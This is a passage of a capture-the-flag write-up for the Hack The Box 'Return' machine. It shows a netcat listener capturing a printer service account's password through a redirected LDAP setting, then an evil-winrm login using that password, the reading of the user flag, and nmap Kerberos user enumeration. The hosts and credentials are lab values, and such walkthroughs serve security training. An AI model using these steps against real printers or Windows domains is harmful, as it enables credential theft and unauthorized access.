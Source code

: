 ![](Return_HTB_PassBack_Setting.png)

Now once you Clicked on the Update button, You will notice that the NetCat listener has captured the credentials for the user `svc-printer`.

```
$ nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.108] 54537
0*`%return\svc-printer�
                       1edFg43012!!                                                                                                                   
```

Yes, That's your password for the user `svc-printer`. Trying to use Evil-WinRm and get my user flag.
```
$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
f0046ea2ea33f883bbac68832b652462
```

**So reading the machine information helps.** 
### Kerberos Enumeration - Port 88

```
$ nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='return.local' -sV -sC 10.10.11.108
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 00:52 EDT
Nmap scan report for return.htb (10.10.11.108)
Host is up (0.043s latency).

PORT   STATE SERVICE      VERSION
88/tcp open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-08-23 05:10:58Z)
| krb5-enum-users: 
| Discovered Kerberos principals
|_    administrator@return.local
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.56 seconds
```
